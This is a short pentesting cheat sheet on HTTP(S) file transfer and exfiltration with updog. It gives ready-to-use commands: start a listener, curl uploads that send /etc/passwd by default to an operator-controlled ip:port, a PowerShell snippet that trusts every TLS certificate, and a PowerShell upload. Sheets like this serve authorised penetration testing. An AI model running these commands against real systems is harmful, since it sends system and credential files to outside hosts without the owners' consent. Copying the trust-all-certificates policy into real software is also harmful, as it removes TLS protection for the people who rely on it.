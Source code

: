 # FileTransfer-HTTP(s)

% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 


## updog - start server
#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 
```
updog -d $(pwd) -p <lport|9090> [--ssl]
```

## updog - curl upload to (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -F "file=@<file|/etc/passwd>;filename=<filename|passwd>" -F "path=<path|.>" http://<ip>:<port|9090>/upload
```

## updog - curl upload to (https)
For secured by password use https://:<password>@<ip>:<port>/upload
```
curl -XPOST -k -F "file=@<file|/etc/passwd>;filename=<filename|passwd>" -F "path=<updog-path|.>" https://<ip>:<port|9090>/upload
```

## updog - powershell trust certificat
```
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```

## updog - powershell upload (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
$f = Get-item <b64-file>
$body = @{
    file = $f
    path = '<path>'
}
Invoke-RestMethod -Method Post -Uri https://<ip>:<port|9090>/upload  -Form $body -Verbose -MaximumRedirection 0
```